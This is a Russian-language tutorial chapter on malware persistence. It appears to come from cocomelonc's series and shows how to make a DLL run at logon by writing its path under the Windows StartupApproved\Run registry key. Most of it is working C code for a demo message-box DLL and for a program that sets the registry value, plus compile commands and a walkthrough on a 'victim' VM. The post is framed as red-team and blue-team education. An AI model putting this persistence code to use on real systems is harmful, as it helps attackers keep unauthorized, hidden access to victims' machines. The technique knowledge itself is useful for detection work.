\newpage
\subsection{90. разработка вредоносного ПО: закрепление (persistence) - часть 24. StartupApproved. Простой пример на C.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Этот пост основан на моем собственном исследовании еще одной интересной техники закрепления вредоносного ПО: через ключ реестра `StartupApproved`.     

### StartupApproved

В самом первом посте серии о закрепления я писал об одной из самых популярных и уже классических техник - через [ключи реестра Run keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html).      

Необычная запись в реестре, используемая стандартным процессом "автозагрузки" (т. е. тем, который в основном управляется проводником Windows, такими как ключи `Run` и `RunOnce`, папка автозагрузки и т. д.) после завершения работы `userinit.exe`, находится в следующем месте в реестре:    
```bash
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run
```

Оказывается, этот ключ заполняется при включении или отключении записей на вкладке `Startup` диспетчера задач Windows:     

{width="80%"}    

Хорошая новость в том, что мы можем использовать этот путь в реестре для закрепления.     

### практический пример

Прежде всего, проверяем ключи реестра с помощью следующей команды:    

```powershell
reg query 
"HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved"
 /s
```

{width="80%"}    

На следующем шаге, как обычно, создаем наше "вредоносное" приложение (`hack.c`):     

```cpp
/*
hack.c
simple DLL messagebox
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Как обычно, просто окно с сообщением `meow-meow`.      

Затем мы просто модифицируем ключ реестра `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved`, например, так (`pers.c`):     

```cpp
/*
pers.c
windows persistence
via StartupApproved
author: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00};

  const char* path = 
  "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\
  StartupApproved\\Run";
  const char* evil = "Z:\\2024-03-12-malware-pers-24\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, 
  &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  // close the registry key
  RegCloseKey(hkey);

  return 0;
}
```

Как можно видеть, логика нашего Proof of Concept довольно проста - мы устанавливаем значение записи в реестре в бинарный формат `0x02 0x00...`.      

### демонстрация

Давайте посмотрим, как все работает на практике. Прежде всего, компилируем нашу "вредоносную" DLL:      

```bash
x86_64-w64-mingw32-g++ -shared -o hack.dll hack.c -fpermissive
```

{width="80%"}    

Затем компилируем наш PoC:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Наконец, запускаем его на машине жертвы. В моем случае, для Windows 10 x64 v1903 VM, это выглядит так:     

```powershell
.\pers.exe
```

{width="80%"}    

Как можно видеть, я также повторно проверил реестр:     

```powershell
reg query \
"HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved" \
/s
```

{width="80%"}    

Затем выходим из системы и входим снова:     

{width="80%"}    

{width="80%"}    

Но неожиданно для меня это не сработало...    

Затем я просто обновил имя записи:     

{width="80%"}    

Вышел и снова вошел в систему, немного подождал... и все сработало идеально....

{width="80%"}    

{width="80%"}    

Таким образом, я обновил одну строку в моем скрипте:    

```cpp
/*
pers.c
windows persistence
via StartupApproved
author: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00};

  const char* path = 
  "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\
  StartupApproved\\Run";
  const char* evil = "C:\\temp\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, 
  &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  // close the registry key
  RegCloseKey(hkey);

  return 0;
}
```

Но есть одна оговорка. Иногда, когда я тестировал эту функцию, она запускала, например, Skype:     

{width="80%"}    

{width="80%"}    

Как можно видеть, все сработало идеально, как и ожидалось! =^..^= :)    

Эта техника используется APT-группами, такими как [APT28](https://attack.mitre.org/groups/G0007/), [APT29](https://attack.mitre.org/groups/G0016/), [Kimsuky](https://attack.mitre.org/groups/G0094/) и [APT33](https://attack.mitre.org/groups/G0064/) в реальных атаках. По правде говоря, этот метод широко применяется и распространен благодаря своей высокой эффективности в обмане жертв.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[ATT&CK MITRE: T1547.001](https://attack.mitre.org/techniques/T1547/001/)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007/)    
[APT29](https://attack.mitre.org/groups/G0016/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)    
[APT33](https://attack.mitre.org/groups/G0064/)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2024-03-12-malware-pers-24)     
